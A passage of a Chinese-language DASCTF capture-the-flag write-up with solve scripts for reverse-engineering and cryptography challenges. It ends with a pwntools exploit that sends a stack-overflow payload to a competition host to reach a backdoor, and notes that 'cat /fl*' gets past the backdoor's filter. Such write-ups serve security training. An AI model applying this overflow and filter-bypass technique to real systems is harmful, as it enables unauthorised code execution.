                    while ptr_ins < len(code) and code[ptr_ins] != ']':
                        num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == ']':
                if self.table.get() != 0:
                    while ptr_ins >= 0 and code[ptr_ins] != '[':
                        num_ins, ptr_ins = num_ins + 1, ptr_ins - 1
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            else:
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            assert num_ins < CONST_INF

        return outp,text
        

if __name__ == '__main__':
    interpreter = Env()

    # hello world
    hello_world_code = '++++[->++++<]>[->++++++<]>-[->+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<]+++<++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]++<+++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]<+++[->++++<]>[->-<]>[-<<<+>>>]<+++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]+++<++[->++++<]>[->-<]>[-<<<+>>>]+<++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]<+++<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->-<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->+<]>[-<<<+>>>][->+<]>[-<<<+>>>]+++<+++[->++++<]>[->-<]>[-<<<+>>>]++<++[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->+<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>]++[->+<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<+++[->++++<]>[->+<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>][->+<]>[-<<<+>>>]++<+++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<+++[->++++<]>[->+<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>][->+<]>[-<<<+>>>]+++<+++[->++++<]>[->-<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->+<]>[-<<<+>>>]++<+++<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]<<+++++++++[->+++++++++<]>++.<+++++[->+++++<]>+++.+++..+++++++.<+++++++++[->---------<]>--------.<++++++++[->++++++++<]>++.<++++[->++++<]>+++.-.<+++++++++[->---------<]>---.<+++++++++[->+++++++++<]>++++++++.<+++[->---<]>-.++++++.---.<+++++++++[->---------<]>-.<++++++++[->++++++++<]>++++++.++++++.<+++[->---<]>--.++++++.<++++++++[->--------<]>-------.<++++++++[->++++++++<]>+++++++++.<+++[->+++<]>+.<+++++++++[->---------<]>--.<++++++++[->++++++++<]>++++++++++++++.+.+++++.<+++++++++[->---------<]>---.<++++++++[->++++++++<]>++++++++.---.<+++[->+++<]>++++.<+++[->---<]>----.<+++++++[->-------<]>------.[-]<'
    outp,text = interpreter.process(hello_world_code, None)
    print(outp)
    for i in text.encode().split(b" "):
        data = ""
        for j in i:
            if(j > 32 and j < 127):
                data += chr(j)
        if(len(data) > 0):
            print(data[-1],end="")

#Sorry but your flag is not here.
#?>_DASCTF{Pen_Pineapple_Apple_Pen}
```

## Reverse

### vm_wo

这是一个 vm 类题型,三位一组进行加密


打印出所有的 opcode 看看规律

```python
def gen_opcode(v_0, v_1):
    opcode = b''
    opcode += v_0.to_bytes(8, 'little')
    opcode += v_1.to_bytes(8, 'little')
    opcode=list(opcode)
    opcode.pop(7)
    for i in opcode:
        print(hex(i)[2::].zfill(2), '', end='')
    print('')


gen_opcode(0x20D01011903001A, 0x300010201180702)
gen_opcode(0x20D02011903001A, 0x400010201180602)
gen_opcode(0x20D03011903001A, 0x500010201180502)
gen_opcode(0x20D04011903001A, 0x600010201180402)
'''
1a 00 03 19 01 01 0d 02 07 18 01 02 01 00 03 
1a 00 03 19 01 02 0d 02 06 18 01 02 01 00 04 
1a 00 03 19 01 03 0d 02 05 18 01 02 01 00 05 
1a 00 03 19 01 04 0d 02 04 18 01 02 01 00 06 
'''
```

那么可以用 python 这样表示,其中 vm[3]就是我们输入的每一位 flag

```
vm[0]=vm[3]#1a 00 03
vm[1]=vm[0]>>1#19 01 01
vm[2]=vm[0]<<7#0d 02 07
vm[0]=vm[1]|vm[2]#18 01 02
vm[0]^=vm[3]#01 00 03
```

要注意 vm 完成之后还进行了循环移位


所以 exp 如下

```
import ctypes
res='0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\]^_`{|}~'
arr = [0xDF, 0xD5, 0xF1, 0xD1, 0xFF, 0xDB, 0xA1, 0xA5, 0x89, 0xBD, 0xE9, 0x95, 0xB3, 0x9D, 0xE9, 0xB3, 0x85, 0x99, 0x87,
       0xBF, 0xE9, 0xB1, 0x89, 0xE9, 0x91, 0x89, 0x89, 0x8F, 0xAD]
dic = {}
for i in res:
    flag = ctypes.c_uint8(ord(i))
    flag.value = 0xef ^ ((flag.value >> 1) | (flag.value << 7))
    flag.value = 0xbe ^ ((flag.value >> 2) | (flag.value << 6))
    flag.value = 0xed ^ ((flag.value >> 3) | (flag.value << 5))
    flag.value = 0xbe ^ ((flag.value >> 4) | (flag.value << 4))
    flag.value = (flag.value >> 5) | (flag.value << 3)
    dic[flag.value] = i
for flag in arr:
    print(dic[flag],end='')#DASCTF{you_are_right_so_cool}
```

### Ez 加密器

写个脚本爆破一下得到 verification code 是需要是六位数字

```
import string

result = string.printable


def ver_enc(v11, v12):
    # v12 = 0xFFFFFFCF
    v13 = 1
    while v13:
        v14 = v13
        v15 = v12 & v13
        v16 = v12
        v12 ^= v14
        v13 = 2 * v15
        # print(bin(v12), v13)
    # v11 = 0x99
    # print(hex(v11), hex(v12))
    while v12:
        v17 = v11
        v11 ^= v12
        v12 = 2 * (v12 & v17)
        # print(hex(v11), hex(v12))

    return v11 & 0xffffffff


for i in range(0xff):
    if not ver_enc(i, 0xFFFFFFF9):
        print(i)
    if not ver_enc(i, 0xFFFFFFCF):
        print(chr(i))
'''
6
0
'''
```

之后对验证码进行换表 base64 加密,通过动态调试得到密钥


之后对 flag 进行 des 加密


爆破一下密钥,得到 flag

```
import base64
import string
from Crypto.Cipher import DES  # pip install pycryptodome
from Crypto.Util.Padding import pad
import binascii
import base64

STANDARD_ALPHABET = b'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
CUSTOM_ALPHABET = b'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ+/'
ENCODE_TRANS = bytes.maketrans(STANDARD_ALPHABET, CUSTOM_ALPHABET)
DECODE_TRANS = bytes.maketrans(CUSTOM_ALPHABET, STANDARD_ALPHABET)
for i in range(999999):
    key = str(i).zfill(6)
    key = key.encode()
    key = base64.b64encode(key).translate(ENCODE_TRANS)
    cipher = '0723105D5C12217DCDC3601F5ECB54DA9CCEC2279F1684A13A0D716D17217F4C9EA85FF1A42795731CA3C55D3A4D7BEA'
    cipher = bytearray(binascii.a2b_hex(cipher))
    des = DES.new(key=key , mode=DES.MODE_ECB)
    flag = des.decrypt(cipher)
    if flag[0]==ord('D') and flag[1]==ord('A') and flag[2]==ord('S'):
        print(i,flag)#DASCTF{f771b96b71514bb6bc20f3275fa9404e}
        #exit(-1)
```

### 

Blast

虚假控制流,有不透明谓词,用 D810 清除一下


清除后效果如下


分析函数发现了 MD5 常量数组


分析函数发现这题是逐位进行双重 md5 加密的,写一下 exp

```
from hashlib import md5
import string
final = ['14d89c38cd0fb23a14be2798d449c182','a94837b18f8f43f29448b40a6e7386ba','af85d512594fc84a5c65ec9970956ea5','af85d512594fc84a5c65ec9970956ea5','10e21da237a4a1491e769df6f4c3b419','a705e8280082f93f07e3486636f3827a','297e7ca127d2eef674c119331fe30dff','b5d2099e49bdb07b8176dff5e23b3c14','83be264eb452fcf0a1c322f2c7cbf987','a94837b18f8f43f29448b40a6e7386ba','71b0438bf46aa26928c7f5a371d619e1','a705e8280082f93f07e3486636f3827a','ac49073a7165f41c57eb2c1806a7092e','a94837b18f8f43f29448b40a6e7386ba','af85d512594fc84a5c65ec9970956ea5','ed108f6919ebadc8e809f8b86ef40b05','10e21da237a4a1491e769df6f4c3b419','3cfd436919bc3107d68b912ee647f341','a705e8280082f93f07e3486636f3827a','65c162f7c43612ba1bdf4d0f2912bbc0','10e21da237a4a1491e769df6f4c3b419','a705e8280082f93f07e3486636f3827a','3cfd436919bc3107d68b912ee647f341','557460d317ae874c924e9be336a83cbe','a705e8280082f93f07e3486636f3827a','9203d8a26e241e63e4b35b3527440998','10e21da237a4a1491e769df6f4c3b419','f91b2663febba8a884487f7de5e1d249','a705e8280082f93f07e3486636f3827a','d7afde3e7059cd0a0fe09eec4b0008cd','488c428cd4a8d916deee7c1613c8b2fd','39abe4bca904bca5a11121955a2996bf','a705e8280082f93f07e3486636f3827a','3cfd436919bc3107d68b912ee647f341','39abe4bca904bca5a11121955a2996bf','4e44f1ac85cd60e3caa56bfd4afb675e','45cf8ddfae1d78741d8f1c622689e4af','3cfd436919bc3107d68b912ee647f341','39abe4bca904bca5a11121955a2996bf','4e44f1ac85cd60e3caa56bfd4afb675e','37327bb06c83cb29cefde1963ea588aa','a705e8280082f93f07e3486636f3827a','23e65a679105b85c5dc7034fded4fb5f','10e21da237a4a1491e769df6f4c3b419','71b0438bf46aa26928c7f5a371d619e1','af85d512594fc84a5c65ec9970956ea5','39abe4bca904bca5a11121955a2996bf']

res = string.printable
dic={}
for s in res:
    new_md5 = md5()
    new_md5.update(s.encode(encoding='utf-8'))
    s_enc = new_md5.hexdigest()
    new_md5 = md5()
    new_md5.update(s_enc.encode(encoding='utf-8'))
    s_enc_2 = new_md5.hexdigest()
    dic[s_enc_2]=s
for str in final:
    print(dic[str],end='')#Hello_Ctfer_Velcom_To_my_Mov_and_md5(md5)_world
```

### CSGO

调用了 C 语言的 GO 逆向

找了下关键函数,是换表 base64


那把表用 frida 给 dump 下来好了

```
function hook_str1(){
    // 获取模块
    var module = Process.getModuleByName("CSGO.exe");
    var my_base = 0xD30000
    var hook_addr=module.base.add(0xDCB530-my_base);
    // 函数 hook 钩子附加
    Interceptor.attach(hook_addr, {
        onEnter: function (args) {
            console.log(args[0].readCString())
            console.log(module.base.add(0xEE5260-my_base).readCString())
        },
        onLeave: function (retval) {
            console.log(retval.readCString())
        }
    });
}
setImmediate(hook_str1,0);
```


解密一下得到 flag



### ezAndroid

## Crypto

### Easy_3L | solved

```python
from gmpy2 import *
S1 = 28572152986082018877402362001567466234043851789360735202177142484311397443337910028526704343260845684960897697228636991096551426116049875141
S2 = 1267231041216362976881495706209012999926322160351147349200659893781191687605978675590209327810284956626443266982499935032073788984220619657447889609681888
S4 = 9739918644806242673966205531575183334306589742344399829232076845951304871478438938119813187502023845332528267974698273405630514228632721928260463654612997
S5 = 9755668823764800147393276745829186812540710004256163127825800861195296361046987938775181398489372822667854079119037446327498475937494635853074634666112736
p = 25886434964719448194352673440525701654705794467884891063997131230558866479588298264578120588832128279435501897537203249743883076992668855905005985050222145380285378634993563571078034923112985724204131887907198503097115380966366598622251191576354831935118147880783949022370177789175320661630501595157946150891275992785113199863734714343650596491139321990230671901990010723398037081693145723605154355325074739107535905777351
h = 2332673914418001018316159191702497430320194762477685969994411366563846498561222483921873160125818295447435796015251682805613716554577537183122368080760105458908517619529332931042168173262127728892648742025494771751133664547888267249802368767396121189473647263861691578834674578112521646941677994097088669110583465311980605508259404858000937372665500663077299603396786862387710064061811000146453852819607311367850587534711
c = 20329058681057003355767546524327270876901063126285410163862577312957425318547938475645814390088863577141554443432653658287774537679738768993301095388221262144278253212238975358868925761055407920504398004143126310247822585095611305912801250788531962681592054588938446210412897150782558115114462054815460318533279921722893020563472010279486838372516063331845966834180751724227249589463408168677246991839581459878242111459287

k = 2^512
m = matrix([[c,0,k],[h,1,0],[p,0,0]])

print(m.LLL())
S3 = 10700695166096094995375972320865971168959897437299342068124161538902514000691034236758289037664275323635047529647532200693311709347984126070052011571264606

t = [S2-S1,S3-S2,S4-S3,S5-S4]
m = gcd(t[3]*t[1]-t[2]**2,t[2]*t[0]-t[1]**2)
x = [S1,S2,S3,S4,S5]
a = (x[2]-x[1])*invert(x[1]-x[0],m)%m
print(m)
print(a)
b = (x[1]-a*x[0])%m
print(b)

s = invert(a,m)*(x[0]-b)%m
print(s)
import libnum
print(libnum.n2s(int(28078551097688565898050951136937645698553664937313607610174039421)))
```

### Danger_RSA | solved

拉一个方程出来解，根据结果分式是否为二次幂判断解的正确性

```python
n = 20289788565671012003324307131062103060859990244423187333725116068731043744218295859587498278382150779775620675092152011336913225797849717782573829179765649320271927359983554162082141908877255319715400550981462988869084618816967398571437725114356308935833701495015311197958172878812521403732038749414005661189594761246154666465178024563227666440066723650451362032162000998737626370987794816660694178305939474922064726534186386488052827919792122844587807300048430756990391177266977583227470089929347969731703368720788359127837289988944365786283419724178187242169399457608505627145016468888402441344333481249304670223
e = 11079917583
c = 13354219204055754230025847310134936965811370208880054443449019813095522768684299807719787421318648141224402269593016895821181312342830493800652737679627324687428327297369122017160142465940412477792023917546122283870042482432790385644640286392037986185997262289003477817675380787176650410819568815448960281666117602590863047680652856789877783422272330706693947399620261349458556870056095723068536573904350085124198592111773470010262148170379730937529246069218004969402885134027857991552224816835834207152308645148250837667184968030600819179396545349582556181916861808402629154688779221034610013350165801919342549766

a = 120561
b = 91903
assert a*b == e

xy = int(iroot(n-e,4)[0])
h1 = n-xy^4-e

var('x')
f = a*xy^2*x^2-h1*x+b*xy^2
print(f.roots())
print(iroot(570819093683598226492877781728589014801191836210964647127500264528351194616749203178792945589788748188309982922029637102085512943535262525532314898372929,2))

p = 22208035509213958326220296307138113781757789578109865172361121282738632739743^2

R.<x> = PolynomialRing(Zmod(n))
f = (p*x)^2+b
f = f.monic()
print(f.small_roots(beta = 0.4))

p = (p*4)^2+b
q = n//p
phi = (p-1)*(q-1)
```

套板子

```python
from Crypto.Util.number import *
import itertools

def get_oneroot(p, e):
    while True:
        Zp = Zmod(p)
        g = Zp.random_element()
        g = g^((p-1) // e)
        for mult in divisors(e):
            if (mult != e):
                g2 = g^mult
                if (g2 == 1):
                    break
        else:
            return g

def decrypt(p, c, e):
    w = gcd(e, p-1)
    e1, p1 = e // w, (p-1) // w
    d = inverse_mod(e1, p1)
    c1 = pow(c, d, p)
    g, a, b = xgcd(p1, w)
    g = get_oneroot(p, w)
    m = pow(c1, b, p)
    return [ZZ(m * g^i) for i in range(w)]

mp_list = decrypt(p, c, e)
print('Find root p OK')
mq_list = decrypt(q, c, e)
print('Find root q OK')
for mp, mq in itertools.product(mp_list, mq_list):
    m = crt([mp, mq], [p, q])
    msg = long_to_bytes(int(m))
    if (b'DAS' in msg):
        print(msg)
```

### SigninCrypto | solved

```python
from hashlib import sha512
import hashlib
from os import urandom
from Crypto.Cipher import DES3
from mt19937predictor import MT19937Predictor

predictor = MT19937Predictor ()
h1 = 334648638865560142973669981316964458403
d = 0x62343937373634656339396239663236643437363738396663393438316230353665353733303939613830616662663633326463626431643139323130616333363363326631363235313661656632636265396134336361623833636165373964343533666537663934646239396462323666316236396232303539336438336234393737363465633939623966323664343736373839666339343831623035366535373330393961383061666266363332646362643164313932313061633336336332663136323531366165663263626539613433636162383363616537396434353366653766393464623939646232366631623639623230353933643833
h2 = 22078953819177294945130027344
c = 0xa6546bd93bced0a8533a5039545a54d1fee647007df106612ba643ffae850e201e711f6e193f15d2124ab23b250bd6e1

d = long_to_bytes(d)
print(d)

d1,d2 = d[:128].decode(),d[128:].decode()
iv = b'GWHTGWHT'

print(h1)
er = b'\xfb\xc2'*8
k1 = (long_to_bytes(bytes_to_long(er)^h1))

l1 = []
l2 = []
f = open(r'\SigninCrypto的附件\tempdir\CRYPTO附件\SigninCrypto\task.txt')
for i in range(624):
    l1.append(int(f.readline(),16))
for i in range(312):
    l2.append(int(f.readline(),16))

    
for i in range(312):
    a = (l1[i*2]<<16) + (l2[i]&0xffff)
    predictor.setrandbits(a, 32)
    a = (l1[i*2+1]<<16) + (l2[i]>>16)
    predictor.setrandbits(a, 32)

k2 = long_to_bytes(predictor.getrandbits(64))
key = k1+k2+b'DASCTF{'
c = long_to_bytes(c)
for i in range(32,128):
    k = key+long_to_bytes(i)
    #print(k)
    mode = DES3.MODE_CBC
    des3 = DES3.new(k, mode, iv)
    cipher = des3.decrypt(c)
    if b'flag' in cipher or b'DASCTF' in cipher:
        print(cipher)
```

### MCeorpkpleer | solved

```python
p = 139540788452365306201344680691061363403552933527922544113532931871057569249632300961012384092481349965600565669315386312075890938848151802133991344036696488204791984307057923179655351110456639347861739783538289295071556484465877192913103980697449775104351723521120185802327587352171892429135110880845830815744
n = 22687275367292715121023165106670108853938361902298846206862771935407158965874027802803638281495587478289987884478175402963651345721058971675312390474130344896656045501040131613951749912121302307319667377206302623735461295814304029815569792081676250351680394603150988291840152045153821466137945680377288968814340125983972875343193067740301088120701811835603840224481300390881804176310419837493233326574694092344562954466888826931087463507145512465506577802975542167456635224555763956520133324723112741833090389521889638959417580386320644108693480886579608925996338215190459826993010122431767343984393826487197759618771
c = 156879727064293983713540449709354153986555741467040286464656817265584766312996642691830194777204718013294370729900795379967954637233360644687807499775502507899321601376211142933572536311131955278039722631021587570212889988642265055045777870448827343999745781892044969377246509539272350727171791700388478710290244365826497917791913803035343900620641430005143841479362493138179077146820182826098057144121231954895739989984846588790277051812053349488382941698352320246217038444944941841831556417341663611407424355426767987304941762716818718024107781873815837487744195004393262412593608463400216124753724777502286239464
pubkey = [18143710780782459577, 54431132342347378731, 163293397027042136193, 489880191081126408579, 1469640573243379225737, 4408921719730137677211, 13226765159190413031633, 39680295477571239094899, 119040886432713717284697, 357122659298141151854091, 1071367977894423455562273, 3214103933683270366686819, 9642311801049811100060457, 28926935403149433300181371, 86780806209448299900544113, 260342418628344899701632339, 781027255885034699104897017, 2343081767655104097314691051, 7029245302965312291944073153, 21087735908895936875832219459, 63263207726687810627496658377, 189789623180063431882489975131, 569368869540190295647469925393, 1708106608620570886942409776179, 601827224419797931380408071500, 1805481673259393794141224214500, 893952418336266652976851386463, 2681857255008799958930554159389, 3523079163584485147344841221130, 1524252287869625983140881149316, 50264262166963219975822190911, 150792786500889659927466572733, 452378359502668979782399718199, 1357135078508006939347199154597, 4071405235524020818041597463791, 3169230503688232995231149877299, 462706308180869526799807117823, 1388118924542608580399421353469, 4164356773627825741198264060407, 3448085117999647764701149667147, 1299270151115113835209806487367, 3897810453345341505629419462101, 2648446157152195057994615872229, 3422845870014670444537026359650, 1223552407160181874717436564876, 3670657221480545624152309694628, 1966986461557807413563286569810, 1378466783231507511243038452393, 4135400349694522533729115357179, 3361215846199738142293703557463, 1038662335715384967987468158315, 3115987007146154903962404474945, 302975818554635252993570910761, 908927455663905758980712732283, 2726782366991717276942138196849, 3657854499533237101379593333510, 1928578295715881845245137486456, 1263242285705730806288591202331, 3789726857117192418865773606993, 2324195368467747797703678306905, 2450093503961328663664213663678, 2827787910442071261545819733997, 3960871129884299055190637944954, 2837628186769067706678271320788]
en_e = 31087054322877663244023458448558

l = len(pubkey)
list = [pow(3,i) for i in range(l)]
w = 18143710780782459577

for i in range(len(pubkey)):
    if 3*pubkey[i] != pubkey[i+1]:
        m = pubkey[i]*3-pubkey[i+1]
        break
e = int(en_e/w%m)
ee = ''
for i in range(64):
    ee += str(e%3)
    e //= 3
e = (int(ee,2))
R.<x> = PolynomialRing(Zmod(n))
f = p+x
print(f.small_roots(beta = 0.4,X = 2^435))
P = p+22279478575805637289061098350801418725939755105414714905065078232409620860952900304322034404385073099026861643396875749287858710167
q = n//P
print(P*q == n)
phi = (P-1)*(q-1)
d = inverse_mod(e,phi)
m = pow(c,d,n)

import libnum

print(libnum.n2s(int(m)))
```

### XOR 贯穿始终 | solved

社会主义价值观解密


解压缩包 私钥解密，再异或上社会主义核心价值观解密结果

```python
n = 0x00b9ad332fb6b87d59b5b20b4ae880ba416d8724111f99a9ed498bcb365091d83dcc43fdff9b607df8a443bcadc79907c921e76b38003b5b0ece660437803195ebfab9a7e23fc0751228fdeefe5591827523d7b79ad04d85e4db5caa13f28a7e0124357d0685e00f14ccbb9679979923c2531ff487f9ba2500ade48995c315d913

e = 0x010001

d = 0x00974ebb2da0bb0afb3603970c3e17d8b044af22070a3750b05b849ddeef1d4a986182eed3832cc8bafc316eea36835042e96c0a85a23abc637e72c7f0ea787df06127fe9dc3d21b8dae8018bdffc345107d5271ddb6d5fbc01f8cbf73f44410d61e006208356f1c5b85515efc708b34b676e78f18d4d3b68f5765d10b701f0361

p = 0x00ea59434f560de2eaf4f21c22fb10691b79485e6290007dc28242bc63739fb95fa03e5ed807000d491f0ca43e50a91d43a6940f390c91757a3ba8226ce58112c9

q = 0x00cad4c29d017e30ddabd606805044d9ca3e6a3184fb4e1f332845555498c36b02e7b97e2eb09d85c919e30a493ce94ef9412261c3998c7344271b6e6e1b3dfefb
print(p*q == n)

c = 91817924748361493215143897386603397612753451291462468066632608541316135642691873237492166541761504834463859351830616117238028454453831120079998631107520871612398404926417683282285787231775479511469825932022611941912754602165499500350038397852503264709127650106856760043956604644700201911063515109074933378818
m = pow(c,d,n)
m = (libnum.n2s(int(m)))

x = b'C0ngr4tulati0n5_y0u_fou^d_m3'
print(m[:12])
m = m[12:]
print(long_to_bytes(bytes_to_long(x)^^bytes_to_long(m)))
```

### EzRSA | solved

n 给了两遍，爆破 e 直接出

```python
from tqdm import tqdm
n = 80642592772746398646558097588687958541171131704233319344980232942965050635113860017117519166348100569115174644678997805783380130114530824798808098237628247236574959152847903491509751809336988273823686988619679739640305091291330211169194377552925908412183162787327977125388852329089751737463948165202565859373
e = 13521
d = 14218766449983537783699024084862960813708451888387858392014856544340557703876299258990323621963898510226357248200187173211121827541826897886277531706124228848229095880229718049075745233893843373402201077890407507625110061976931591596708901741146750809962128820611844426759462132623616118530705745098783140913

'''
for e in tqdm(range(100000)):
    a = pow(2,e,n)
    if pow(a,d,n) == 2:
        print(e)
        break
'''
phi = e*d-1
phi = phi/149/16
p_q = n-phi+1

from hashlib import md5
print(str(p_q))

print(md5(str(p_q).encode()).hexdigest())
```

## PWN

### risky_login

riscv64 架构：


发现这里有个栈溢出：


strlen 的结果用 char 类型存储，而 param_1 字符串最大长度 0x120，存在溢出能修改这个函数的返回地址到 backdoor

backdoor 有一个对 flag 和 sh 的检测，使用 cat /fl*就能打印出 flag

完整 exp:

```python
from pwn import *
import time
context.log_level='debug'
context.arch = 'amd64'

def exp():
        global rs
        r = remote("tcp.cloud.dasctf.com",25317)
        r.sendafter("name:","1")
        pd = "a"*0x100 + "\xee\x56\x34\x12\x00\x00" 
        r.sendafter("words",pd)
        
        r.interactive()

if __name__ == "__main__":
        exp()
```
